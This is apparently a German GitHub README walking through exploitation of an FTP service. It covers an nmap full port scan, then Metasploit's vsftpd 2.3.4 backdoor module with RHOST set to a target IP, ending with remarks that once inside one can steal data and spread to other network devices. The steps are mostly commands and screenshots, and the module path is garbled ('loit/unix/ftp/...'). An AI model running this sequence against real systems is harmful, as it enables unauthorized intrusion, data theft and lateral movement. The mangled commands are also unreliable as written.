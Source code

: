 Exploit Ports:
Um einen Port zu exploiten muss man zuerst wissen welchen Port man angreift. Dazu wird ein Portscan benötigt u zu sehen welched Portsoffen sind.

sudo nmap -p- -sV -O {IP-Adresse des Ziels}
  
 <h2>Port 21:</h2>

service postgresql start <br> service postgresql status 
  
Danach wird ein passwort verlangt

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134168995-94cda790-8dd0-4b10-aa4d-6c21b3ead126.png" alt="PStatus Serie" width="600" height="250">
  
  
Danach öffnet man die "msf console": msfconsole
  
In dieser Konsole sucht man nach einem Exploit für diese Version:
  
  search vsftpd 2.3.4
  So sieht es aus wenn ein Exploit existiert
 <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134171809-b1af4e1a-e66e-42e8-a819-9b2ee5c7ad60.png" alt="PStatus Serie" width="600" height="250">

loit/unix/ftp/vsftpd_234_backdoor
use exploit loit/unix/ftp/vsftpd_234_backdoor
  
show options
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179000-68e9e466-7846-439e-991a-19a5aa512d45.png" alt="PStatus Serie" width="600" height="250">
Hier sieht an wie die Konfuguration aussieht. Man Merkt recht schnell das man noch die IP adresse des Host eintragen muss, damit man den Port 21 exploiten kann.
  
set RHOST {IP-Adresse des Ziels}
  
 Danach kontrolieren mit: show options
  
 Danah kann an einfah den Comand "exploit" absetzen
   <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179776-3da11699-69f9-4046-9d4c-dee49130c2b9.png" alt="PStatus Serie" width="600" height="250">
  
  Da man nun imSystem ist kann man mit Befehlen wie WHOAMI oder $HOME sich auf dem Zielsystem umshehen, Daten klauen und seinen Zugrif aus Andere Geräte im Netzwerk erweitern. 

